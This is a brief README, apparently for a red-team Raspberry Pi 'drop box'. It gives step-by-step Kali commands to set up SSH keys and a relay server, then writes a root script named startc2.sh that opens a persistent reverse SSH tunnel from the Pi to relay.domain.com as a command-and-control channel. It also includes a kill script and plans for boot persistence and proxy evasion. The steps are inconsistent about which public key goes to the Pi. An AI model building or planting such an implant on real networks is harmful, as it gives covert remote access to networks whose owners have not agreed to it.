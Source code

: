# spi



## Preparation

On host, create two SSH keys - two each with a different passphrase (key_relay, key_admin), one without (key_pi)

    ssh-keygen





## Set up relay server using key_admin.pub. Assign a static IP address and assign to DNS name relay.domain.com

Connect to relay server over SSH using key_admin, change SSH port, and reconnect

    ssh -i /home/kali/.ssh/key_admin kali@relay.domain.com
    sudo apt update && sudo apt upgrade -y
    sudo nano /etc/ssh/sshd_config
      (Add a line for 'Port 2222' and save)
    sudo systemctl restart ssh
    exit
    ssh -i /home/kali/.ssh/key_admin kali@relay.domain.com -p 2222
    #create user pi, create /home/pi/.ssh, chown /home/pi and /home/pi/.ssh to new user, and copy key_pi.pub and key_relay.pub to authorized_keys




## Set up RPi

Format RPi with latest Kali ARM

Connect to RPi over SSH, change default password, and make a directory for the keys

    ssh kali@10.10.10.10 (password: kali)
    passwd
      (Change password)
    mkdir -p /home/kali/.ssh
    sudo apt update && sudo apt upgrade -y

Copy key_pi and key_relay.pub to RPi. Rename key_relay.pub -> authorized_keys

    scp key_pi kali@10.10.10.10:/home/kali/.ssh
    scp key_admin.pub kali@10.10.10.10:/home/kali/.ssh/authorized_keys
    
Connect to RPi over SSH using key_admin

    ssh -i /home/kali/.ssh/key_admin root@10.10.10.10
    echo "ssh -i /home/kali/.ssh/key_pi -R 9001 -f -C -q -N pi@relay.domain.com -p 2222" > /root/startc2.sh
    chmod 700 /root/startc2.sh
    echo "kill $(/usr/bin/ps aux | /usr/bin/grep ssh | /usr/bin/grep 2222 | /usr/bin/awk '{print $2}')" > /root/killc2.sh
    chmod 700 /root/killc2.sh
    # startc2 on boot
    # proxy awareness or https channel
    
    
    
    
    
    
    

    

TODO:
configure secure local login for pi


